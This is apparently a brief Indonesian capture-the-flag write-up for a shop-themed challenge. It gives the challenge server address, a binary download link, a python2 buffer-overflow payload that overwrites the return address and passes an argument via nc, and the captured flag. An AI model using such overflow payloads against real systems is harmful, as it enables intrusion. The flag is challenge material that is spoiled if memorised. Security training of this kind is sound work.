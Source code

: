 Sekolah, Absensi, dan lain-lain udah mimin buat. Sekarang Toko lagi :3...

```
nc 103.157.96.13 7780
```

Download : https://mega.nz/#!tgB0hZqK!y-MbgBguaSoLkubs5Z9t41TPS2LmPFuJPV7VwJWEI7M

Payload
```
python2 -c "print 'A'*44 + '\xc2\x91\x04\x08' + 'BBBB' + '\x01\x00\x00\x00'" | nc 103.157.96.13 7780
```

Flag

```
CTFR{buff3rov3rfl0w_w1th_4rgum3nt5}
```